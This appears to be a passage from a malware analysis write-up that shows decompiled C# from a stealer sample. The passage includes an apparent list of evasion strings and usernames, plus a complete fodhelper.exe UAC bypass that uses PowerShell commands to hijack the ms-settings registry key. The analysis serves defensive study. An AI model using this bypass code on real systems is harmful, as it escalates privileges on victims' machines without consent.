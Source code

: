 ```cs
			"9yjCPsEYIMH", "GGw8NR", "JcOtj17dZx", "05KvAUQKPQ", "64F2tKIqO5", "7DBgdxu", "uHUQIuwoEFU", "gL50ksOp", "Of20XqH4VL", "tHiF2T",
			"sal.rosenburg", "hbyLdJtcKyN1", "Rt1r7", "katorres", "doroth", "umehunt"
		};
	}
}
```

Lastly UAC is for establishing persistence through User Account Control bypass, utilizing fodhelper.exe as previously suspected.
```cs
namespace Evasion
{
	// Token: 0x0200001D RID: 29
	[NullableContext(1)]
	[Nullable(0)]
	public class UAC
	{
		// Token: 0x0600003C RID: 60 RVA: 0x00004B30 File Offset: 0x00002D30
		public static void Bypass(string A_0)
		{
			Process.Start("powershell.exe", UAC.psCMD1).WaitForExit();
			Process.Start("powershell.exe", UAC.psCMD2).WaitForExit();
			Process.Start("powershell.exe", string.Format(UAC.psCMD3, A_0)).WaitForExit();
			Process.Start("powershell.exe", "fodhelper.exe").WaitForExit();
		}

		// Token: 0x0400003E RID: 62
		public static readonly string psCMD1 = "New-Item “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Force";

		// Token: 0x0400003F RID: 63
		public static readonly string psCMD2 = "New-ItemProperty -Path “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Name “DelegateExecute” -Value “” -Force";

		// Token: 0x04000040 RID: 64
		public static readonly string psCMD3 = "Set-ItemProperty -Path “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Name “(default)” -Value \"{0}\" -Force";
	}
}
```

The Modules namespace has several stealer functions:

![](images/dnspy2.png)
